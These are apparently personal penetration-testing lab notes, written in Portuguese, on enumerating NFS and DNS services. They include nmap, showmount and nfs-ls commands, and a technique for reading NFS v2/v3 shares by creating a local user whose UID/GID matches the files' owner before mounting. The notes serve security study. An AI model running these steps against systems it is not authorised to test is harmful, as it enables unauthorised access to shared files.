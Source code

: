      showmount -e 10.11.1.72
     
     nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

 A premissa do NFS é o mesmo do SMB, compartilhar arquivos por meio da rede, acontece que no caso do NFS não é utilizado autenticação e autorização em suas versões 3 e 2, somente um grau de seguranã maior na sua versão 4.
 
 Para explorar essa vulnerabilidade, primeiro precisamos fazer a enumeração do serviço por meio dos seguintes comandos:
 
 
     sudo nmap -sS -p 111,2049 --script nfs-showmount,nfs-ls 10.11.1.72
     #outra possibilidade também pode ser:
     sudo apt update
     sudo apt install libnfs-utils
     #Com isso a gente consegue fazer a enumeração das permissividades dos arquivos em modo recursivo
     nfs-ls -R nfs://10.11.1.72/home
     
     showmount -e 10.11.1.72
     
     nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254


![qownnotes-media-wrgegz](../../media/qownnotes-media-wrgegz.png)

### Exploitation

Assim que fizermos a enumeração, vamos identificar quais são os IDs pertinenetes aos arquivos lá constados no share via NFS, mas isso só é válido nas versões 2 e 3  do protocolo. A versão 4 já é mais segura! Basta adicionarmos o usuário e o grupo do usuário cujo uid e guid corespondem ao mesmo que foi identificao no momento da enumeração.

    sudo adduser --uid 1014 pwn
    sudo addgroup --gid 1014 pwn_group
    sudo usermod -a -G pwn_group pwn

    mount.nfs -o vers=3 10.11.1.72:/home /tmp/mount_dir
    
    

    

## DNS

### Enumerate domain

Primeiro temos que verificar se a gente consegue obter o nome do domínio por mieo de uma resolução invesrsa de DNS da seguinte maneira:
Informar o serviço de DNS encontrado por meio do comando abaixo:
    
    sudo nmap -sU -p 53 192.168.134.0/24 -oG dns_enum_lab.txt
    #Assim que achado o DNS server (porta 53 aberta), fazemos um nslookup ou host para um host da rede
    #host <IPS_DA_REDE> <IP_DNS_SERVER>
    host 192.168.134.149 192.168.134.149
    

    nslookup
    server 192.168.134.149    
![qownnotes-media-GwrWbS](../../media/qownnotes-media-GwrWbS.png)
